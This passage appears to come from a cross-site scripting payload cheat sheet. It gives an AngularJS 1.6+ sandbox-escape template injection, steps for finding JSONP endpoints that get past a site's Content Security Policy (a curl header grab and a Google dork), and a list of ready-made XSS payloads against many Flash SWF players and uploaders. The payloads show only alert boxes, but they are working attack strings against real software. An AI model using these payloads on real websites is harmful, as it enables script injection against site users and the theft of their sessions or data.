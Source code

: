 **1.6.0+** (no [Expression Sandbox](http://angularjs.blogspot.co.uk/2016/09/angular-16-expression-sandbox-removal.html)) by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```
     
## Content Security Policy (CSP) bypass via JSONP endpoints**

Grab the target's CSP:

```
curl -I http://example.com | grep 'Content-Security-Policy'
```

Either paste the CSP into https://csp-evaluator.withgoogle.com/ or just submit the target's address into the "Content Security Policy" field. The CSP Evaluator will notify you if one of the whitelisted domains has JSONP endpoints.

![image](https://user-images.githubusercontent.com/18099289/32136707-a1c12510-bc12-11e7-8a80-8a22b3e94232.png)

Now we can use a Google dork to find some JSONP endpoints on the domains listed above.

```
site:example.com inurl:callback
```
     
## Flash SWF XSS

   - ZeroClipboard: `ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf`
   - plUpload Player: `plupload.flash.swf?%#target%g=alert&uid%g=XSS&`

   - plUpload MoxiePlayer: `Moxie.swf?target%g=confirm&uid%g=XSS` (also works with `Moxie.cdn.swf` and other variants)

   - FlashMediaElement: <code>flashmediaelement.swf?jsinitfunctio%gn=alert`1`</code>

   - videoJS: `video-js.swf?readyFunction=confirm` and `video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29`

   - YUI "io.swf": `io.swf?yid=\"));}catch(e){alert(document.domain);}//`

   - YUI "uploader.swf": `uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<`

   - Open Flash Chart: `open-flash-chart.swf?get-data=(function(){alert(1)})()`

   - AutoDemo: `control.swf?onend=javascript:alert(1)//`

   - Adobe FLV Progressive: `/main.swf?baseurl=asfunction:getURL,javascript:alert(1)//` and `/FLVPlayer_Progressive.swf?skinName=asfunction:getURL,javascript:alert(1)//`

   - Banner.swf (generic): `banner.swf?clickTAG=javascript:alert(document.domain);//`

   - JWPlayer (legacy): `player.swf?playerready=alert(document.domain)` and `/player.swf?tracecall=alert(document.domain)`
